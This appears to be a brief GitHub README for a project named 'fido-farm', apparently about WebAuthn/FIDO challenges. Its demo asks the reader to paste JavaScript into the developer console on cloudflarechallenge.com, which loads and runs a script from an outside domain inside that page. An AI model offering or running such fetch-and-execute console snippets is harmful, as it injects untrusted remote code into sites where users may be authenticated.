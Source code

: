 # fido-farm
Blog post incoming, stay tuned...

### Demo
Visit https://cloudflarechallenge.com/ and run the following in the developer tools console:
```js
let script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'https://webauthn.bored.engineer/script.js';
(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(script);
```
